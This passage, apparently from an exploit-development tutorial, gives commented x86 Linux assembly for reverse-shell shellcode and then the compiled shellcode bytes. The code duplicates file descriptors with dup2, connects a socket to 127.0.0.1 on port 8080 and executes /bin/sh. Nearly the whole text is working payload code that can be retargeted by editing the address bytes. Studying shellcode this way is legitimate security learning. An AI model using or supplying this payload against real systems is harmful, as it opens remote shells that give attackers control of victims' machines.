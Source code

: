 ```
            xor eax, eax        ; zeroing out eax
            mov al, 0x3f        ; syscall number - dup2
            dec cl              ; decreasing loop counter 
            int 0x80            ; interrupt to ask for syscall execution
            jnz dupin           ; if the zero flag is not set then do it again
        ; ==================
        ; connect syscall
        ; ==================
        ; > man 2 connect
        ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
        ; ------------------
        add ax, 0x16a           ; syscall number
        mov ebx, esi            ; move the socket file descriptor as syscall parameter
        push 0x0100007f         ; uint32_t s_addr (4 bytes) in little endian, 0x0100007f is 127.0.0.1
        push word 0x901f        ; in_port_t sin_port (2 bytes) in little endian, 0x1f90 is 8080 
        push word 0x02          ; sa_family_t sin_family (2 bytes), AF_INET - IPv4 Internet protocols
        mov ecx, esp            ; move the address of esp as syscall parameter as a mean to access the struct just saved in the stack
        xor edx, edx            ; zeroing register
        add edx, 0x10           ; socklen_t addrlen (16 bytes) is the size of the struct saved  
        int 0x80                ; interrupt to ask for syscall execution
        ; ==================
        ; execve syscall
        ; ==================
        ; > man 2 execve
        ;  int execve(const char *filename, char *const argv[], char *const envp[]);
        ; ------------------
        xor eax, eax            ; zeroing out eax
        push eax                ; push null byte onto the stack
        mov al, 0x0b            ; syscall number 
        push 0x68732f6e         ; push on the stack the name of the program, /bin/sh to executed in little endian - hs/n
        push 0x69622f2f         ; push on the stack the name of the program, /bin/sh to executed in little endian - ib// (double / for padding)
        mov ebx, esp            ; move the address of esp as syscall perameter as a mean to access the program name
        xor edi, edi            ; zeroing register
        push edi                ; push on the stack a null argv
        mov edx, esp            ; move the address of esp as syscall perameter as a mean to access the argv value
        push ebx                ; push "//bin/sh,0x00000000" back to the stack as envp 
        mov  ecx, esp           ; move the address of esp as syscall perameter as a mean to access the envp value
        int 0x80                ; interrupt to ask for syscall execution
```

Once compiled the shellcode generated is the following:

```
\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x89\xf3\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\xfe\xc9\xcd\x80\x75\xf6\x66\x05\x6a\x01\x89\xf3\x68\x7f\x00\x00\x01\x66\x68\x1f\x90\x66\x6a\x02\x89\xe1\x31\xd2\x83\xc2\x10\xcd\x80\x31\xc0\x50\xb0\x0b\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xff\x57\x89\xe2\x53\x89\xe1\xcd\x80
```
